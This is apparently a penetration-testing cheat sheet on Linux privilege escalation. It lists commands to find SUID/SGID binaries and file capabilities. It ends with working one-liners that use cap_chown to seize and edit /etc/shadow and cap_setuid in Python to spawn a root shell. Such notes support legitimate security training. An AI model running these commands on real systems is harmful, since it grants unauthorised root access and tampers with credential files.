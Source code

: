 ## SUID / SGID / GUID 

```bash
# SUID / SGID
find / -perm -u=s -type f 2>/dev/null | xargs ls -l
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null 
find / -perm -g=s -type f 2>/dev/null | xargs ls -l
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null

# Look for any binaries that seem odd. Any binaries running from a users home directory?
# Check the version of any odd binaries and see if there are any public exploits that can be used to gain root

# SUID PATH
echo $PATH
env | grep PATH
print $PATH
```

## Capabilities

>[!INFO]
>Check for files with **capabilities**. These may allow us to access restricted files or directories. Having the capability **=ep** means the binary has all the capabilities.

```bash
/usr/bin/getcap -r  /usr/bin
getcap -r / 2>/dev/null

## Interesting capabilities
getcap openssl /usr/bin/openssl 
openssl=ep
#  the following capabilities can be used in order to upgrade your current privileges.
cap_dac_read_search # read anything
cap_setuid+ep # setuid

# EXAMPLES
# 1
# linpeas /usr/local/bin/ruby = cap_chown+ep 
echo 'File.chown(<User ID>, nil, "/etc/shadow")' > exploit.rb 
ruby exploit.rb 
chmod 777 /etc/shadow
nano /etc/shadow

# 2
# cap_setuid+ep python2.7
python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
sh-5.0# id
uid=0(root) gid=1000(swissky)
```
